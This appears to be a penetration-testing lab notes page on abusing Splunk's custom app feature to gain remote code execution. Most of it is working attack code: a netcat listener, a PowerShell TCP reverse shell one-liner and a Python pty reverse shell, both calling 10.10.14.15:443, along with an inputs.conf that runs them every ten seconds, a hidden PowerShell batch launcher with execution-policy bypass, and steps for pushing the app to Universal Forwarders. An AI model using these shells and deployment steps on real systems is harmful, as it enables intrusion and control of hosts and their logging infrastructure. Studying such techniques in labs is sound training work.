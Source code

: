 ## Abusing Built-In Functionality

Upload this: https://github.com/0xjpuff/reverse_shell_splunk
```
sudo nc -lnvp 443
```
- Apps > Settings icon

OR

To create an application in Splunk, it must be this structure
```
MasterMarkyMark@htb[/htb]$ tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```
- bin file has scripts
- default file has inputs.conf

PowerShell one-liner
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```
cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
- enabled and runs every 10 seconds

**Batch file to run the script in Splunk
```
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

**Zip up and upload to Splunk
```
tar -cvzf updater.tar.gz splunk_shell/
```

**Linux host
- We would need to edit the rev.py Python script before creating the tarball and uploading the custom malicious app
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

If compromised host is a Splunk server, then we have get RCE on Universal Forwarders by placing the app in $SPLUNK_HOME/etc/deployment-apps.
In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.
